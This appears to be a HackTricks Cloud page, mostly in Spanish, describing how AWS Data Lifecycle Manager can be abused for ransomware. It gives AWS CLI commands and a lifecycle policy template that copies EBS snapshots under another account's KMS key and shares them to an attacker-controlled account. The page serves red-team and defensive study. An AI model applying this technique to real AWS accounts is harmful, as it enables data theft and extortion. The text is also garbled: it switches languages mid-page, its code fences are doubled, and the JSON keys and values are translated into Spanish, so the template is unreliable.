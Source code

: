 # AWS - Administrador del Ciclo de Vida de Datos

{% hint style="success" %}
Aprende y practica Hacking en AWS:<img src="/.gitbook/assets/image.png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="/.gitbook/assets/image.png" alt="" data-size="line">\
Aprende y practica Hacking en GCP: <img src="/.gitbook/assets/image (2).png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="/.gitbook/assets/image (2).png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>Apoya a HackTricks</summary>

* Revisa los [**planes de suscripción**](https://github.com/sponsors/carlospolop)!
* **Únete al** 💬 [**grupo de Discord**](https://discord.gg/hRep4RUj7f) o al [**grupo de telegram**](https://t.me/peass) o **síguenos** en **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**.**
* **Comparte trucos de hacking enviando PRs a los repositorios de** [**HackTricks**](https://github.com/carlospolop/hacktricks) y [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud).

</details>
{% endhint %}

## Administrador del Ciclo de Vida de Datos (DLM)

### `EC2:DescribeVolumes`, `DLM:CreateLifeCyclePolicy`

Un ataque de ransomware puede ser ejecutado cifrando tantos volúmenes EBS como sea posible y luego borrando las instancias EC2 actuales, los volúmenes EBS y las instantáneas. Para automatizar esta actividad maliciosa, se puede emplear Amazon DLM, cifrando las instantáneas con una clave KMS de otra cuenta de AWS y transfiriendo las instantáneas cifradas a una cuenta diferente. Alternativamente, podrían transferir instantáneas sin cifrar a una cuenta que gestionan y luego cifrarlas allí. Aunque no es directo cifrar volúmenes EBS o instantáneas existentes directamente, es posible hacerlo creando un nuevo volumen o instantánea.

En primer lugar, se utilizará un comando para recopilar información sobre los volúmenes, como el ID de la instancia, el ID del volumen, el estado de cifrado, el estado de adjunto y el tipo de volumen.
```aws ec2 describe-volumes```

Secondly, one will create the lifecycle policy. This command employs the DLM API to set up a lifecycle policy that automatically takes daily snapshots of specified volumes at a designated time. It also applies specific tags to the snapshots and copies tags from the volumes to the snapshots. The policyDetails.json file includes the lifecycle policy's specifics, such as target tags, schedule, the ARN of the optional KMS key for encryption, and the target account for snapshot sharing, which will be recorded in the victim's CloudTrail logs.


```bash
```bash
aws dlm create-lifecycle-policy --description "Mi primera política" --state ENABLED --execution-role-arn arn:aws:iam::12345678910:role/AWSDataLifecycleManagerDefaultRole --policy-details file://policyDetails.json
```
```

A template for the policy document can be seen here:
```bash
```json
{
   "TipoPolítica": "ADMINISTRACIÓN_DE_SNAPSHOTS_EBS",
   "TiposDeRecursos": [
      "VOLUMEN"
   ],
   "EtiquetasObjetivo": [
      {
         "Clave": "ClaveEjemplo",
         "Valor": "ValorEjemplo"
      }
   ],
   "Programaciones": [
      {
         "Nombre": "InstantáneasDiarias",
         "CopiarEtiquetas": true,
         "EtiquetasAAgregar": [
            {
               "Clave": "CreadorInstantánea",
               "Valor": "DLM"
            }
         ],
         "EtiquetasVariables": [
            {
               "Clave": "CentroDeCostos",
               "Valor": "Finanzas"
            }
         ],
         "ReglaCreación": {
            "Intervalo": 24,
            "UnidadIntervalo": "HORAS",
            "Horas": [
               "03:00"
            ]
         },
         "ReglaRetención": {
            "Cantidad": 14
         },
         "ReglaRestauraciónRápida": {
            "Cantidad": 2,
            "Intervalo": 12,
            "UnidadIntervalo": "HORAS"
         },
         "ReglasCopiaInterregional": [
            {
               "RegiónObjetivo": "us-west-2",
               "Encriptado": true,
               "ArnCmk": "arn:aws:kms:us-west-2:123456789012:key/your-kms-key-id",
               "CopiarEtiquetas": true,
               "ReglaRetención": {
                  "Intervalo": 1,
                  "UnidadIntervalo": "DÍAS"
               }
            }
         ],
         "ReglasCompartir": [
            {
               "CuentasObjetivo": [
                  "123456789012"
               ],
               "IntervaloNoCompartir": 30,
               "UnidadIntervaloNoCompartir": "DÍAS"
            }
         ]
      }
   ],
   "Parámetros": {
      "ExcluirVolumenArranque": false
   }
}
```
```

{% hint style="success" %}
Learn & practice AWS Hacking:<img src="/.gitbook/assets/image.png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="/.gitbook/assets/image.png" alt="" data-size="line">\
Learn & practice GCP Hacking: <img src="/.gitbook/assets/image (2).png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="/.gitbook/assets/image (2).png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>Support HackTricks</summary>

* Check the [**subscription plans**](https://github.com/sponsors/carlospolop)!
* **Join the** 💬 [**Discord group**](https://discord.gg/hRep4RUj7f) or the [**telegram group**](https://t.me/peass) or **follow** us on **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**.**
* **Share hacking tricks by submitting PRs to the** [**HackTricks**](https://github.com/carlospolop/hacktricks) and [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github repos.

</details>
{% endhint %}

